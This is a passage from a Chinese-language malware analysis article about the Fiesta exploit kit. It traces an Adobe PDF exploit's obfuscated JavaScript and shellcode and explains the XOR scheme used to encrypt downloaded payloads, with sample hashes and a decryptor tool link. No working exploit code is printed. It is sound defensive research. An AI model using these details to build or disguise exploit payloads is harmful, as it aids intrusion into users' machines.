在成功解码数据后我们可以将 payload 放入 Fiesta,现在在 payload 上让我们尝试我们前面说过的 flash exp。


可惜看起来似乎不能工作，解密后的 payload 的运行结果无论是 Flash,adobe PDF 还是 Silverlight 都返回错误。它看起来似乎不是普通的 java 代码，是利用了一种基于控制执行的 shellcode，并且使用不同的加密手段。我们可以从硬盘上解密出的 payload 看到，是不同于最初 256 字节的 XOR 块的，payload 可以传输任何 shellcode。



现在我们需要查看 exp 中的 shellcode，先前我们已经看过了 flash exp 但是停在了利用点，现在我们可以通过 java exp 去解密 payload，那么接下来我们来看看另一种类型:adobe pdf

## 0x04 Adobe PDF exploit

* * *

样本：[f4346a65ea040c1c40fac10afa9bd59d](https://www.virustotal.com/en/file/06b61815fc2af0ca07d76b6228e5db75779cbe43f1f6be97438474dc19984775/analysis/)

使用[peepdf](http://eternal-todo.com/tools/peepdf-pdf-analysis-tool)分析 PDF：



peepdf 告诉我们有一个 AcroForm 和一些 JavaScript。我们看一下 AcroForm，就会看到调用初始化时其实用的是 JavaScript，手续跟踪 object 关系直到找到 XFA：



下滑就找到真正的 AcroForm 脚本，就能找到初始化设置的（混淆的）JavaScript 代码



清理下代码找到最后看看漏洞如何触发的，在这段 JavaScript 代码中，一个恶意的 image 对象被 shellcode 创建：


在 expl_imgdata 传给 image 之前提取出来，可以用 base64 解码，看看 shellcode，在 shellcode 当中我们找到真正的解密函数，与之前的 Java exploit 完全一样。

256 字节的 XOR key 之前有 16 个（额外）个字节保存信息。shellcode 中下载 payload，前 16 个字节被用于确定实际 payload 的大小，这些值是 XOR 的。前 4 个字节是下 12 个字节 XOR key。看起来是这样子的：


解密这个 payload，我们可以跳过前 16 字节，解密出来的数据多了 25 字节，25 字节之后就是正常的 MZ 头，我们找到了有效的 PE。那么这里有什么呢？更多的信息需要把文件放在系统上，MZ 头之前的数据是文件大小，硬盘上的文件名：


通过这些信息，我们得到一个可以执行的 PE 文件，解密的样本可以从这里下载：[31af1a5656ce741889984e8e878c7836](https://www.virustotal.com/en/file/34fee355fb164f72386583b0859b0aa27ebc3b29103db85b64e2c39be1eca10c/analysis/)

我写了一个可以从网络数据中解密任何 Fiesta payload 的 Python 脚本，已经在最近 10 个 Fiesta EK 上测试过了，两个参数，第一个是需要解密文件，第二个是输出文件，将会输出有效的 PE 文件：

[`github.com/0x3a/tools/blob/master/fiesta-payload-decrypter.py`](https://github.com/0x3a/tools/blob/master/fiesta-payload-decrypter.py)

版权声明：未经授权禁止转载 [爱小狐狸的小螃蟹](http://drops.wooyun.org/author/爱小狐狸的小螃蟹 "由 爱小狐狸的小螃蟹 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [编写基于 PHP 扩展库的后门](http://drops.wooyun.org/tips/3003)
*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [JCTF Writeup](http://drops.wooyun.org/tips/3131)
*   [深入了解 SQL 注入绕过 waf 和过滤机制](http://drops.wooyun.org/tips/968)